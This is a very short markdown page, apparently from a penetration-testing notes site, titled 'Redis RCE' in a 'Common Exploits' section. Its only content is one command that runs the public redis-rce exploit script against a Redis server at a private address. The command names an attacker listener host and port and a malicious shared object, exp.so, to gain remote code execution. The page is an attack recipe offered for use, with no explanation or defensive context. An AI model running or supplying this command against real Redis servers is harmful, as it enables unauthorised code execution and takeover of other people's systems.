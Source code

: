```yaml
---
title: Redis RCE
parent: Common Exploits
layout: default
nav_order: 4
---
```


- `python redis-rce.py -r 192.168.155.69 -p 6379 -L 192.168.49.155 -P 80 -f ./exp.so`\
    (in common exploit, redis-rce-master) https://github.com/Ridter/redis-rce
